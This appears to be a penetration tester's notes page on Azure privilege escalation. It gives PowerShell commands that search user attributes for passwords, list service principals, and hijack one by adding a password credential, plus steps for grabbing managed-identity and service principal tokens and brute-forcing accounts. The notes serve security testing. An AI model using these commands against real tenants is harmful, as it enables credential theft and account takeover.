







# Azure Privilege Escalation

## Azure Privilege Escalation

#### Common things to look at :

* Key Vaults
* VMs
* Deployment scripts
* AD user attribute data
* Runbooks

### Managed Identities

VM access can have higher access than the actual user in Azure\(ie permission for backup and so on\) :

* VM can authenticate to Azure with a Managed Identity by requesting OAuth Token from Azure Metadata Server `http://169.254.169.54/metadata/identity/oauth2/token`
* RDP to the VM, request the token and connect to Azure using AZ cli or powershell

#### Resources



### User description Field

Same as AD Env, critical info can be found in description fields

```csharp
import-module MSOnline
Connect-MsolService
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | ForEach-Object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "password"){Write-Output ("[*]" + $user.UserPrincipalName +"[" + $prop + "]" + ":" + $user.$prop)}}}
```

### Service Principal Hijacking

* Over 200 default services principals in a O365 Tenant
* They are NOT listed in Azure Portal
* Different Permissions via "Microsoft Graph"
* Application Administrator can change password or certificats for service principal \(include default service principal\)

#### List service principal

```csharp
import-module Az 
Get-AzADServicePrincipal | Select-Object Displayname
```



### Interesting Permissions



#### Resource



### Service Principal password change

Application Admin cannot create new users to groups but can change password for Service Principal which are able to do it!

* Connect to Azure

```csharp
Connect-AzureAD
Get-AzureADServicePrincipal
Get-AzureADServicePrincipal -SearchString "Whatever"
```



* Select the Service Principal and change his password

```csharp
New-AzureADServicePrincipalPasswordCredential  -ObjectId <OBJECT ID>  -EndDate "12-31-2099 12:00:00" -StartDate "12-31-2015 12:00:00" -Value "IvchangeThePassword:)"
```


* Then connect using the SPN application ID and Password, and request a token on the following URL and copy the JWT token

[https://login.microsoftonline.com/TENAND\_ID/oauth2/v2.0/token](https://login.microsoftonline.com/16114b71-06fe-4e5c-a549-d03d6eade144/oauth2/v2.0/token)



* Enumerate permission account using SPN Object ID and the JWT





* list every SPN object ID



* Use burp intruder to bruteforce every SPN accounts \(create filter using "grep and extract"\)



### Break Glass Admin accounts

Microsoft recommends to set up 2 admin accounts \(one as 'Emergercy case'\) and disable MFA on it.


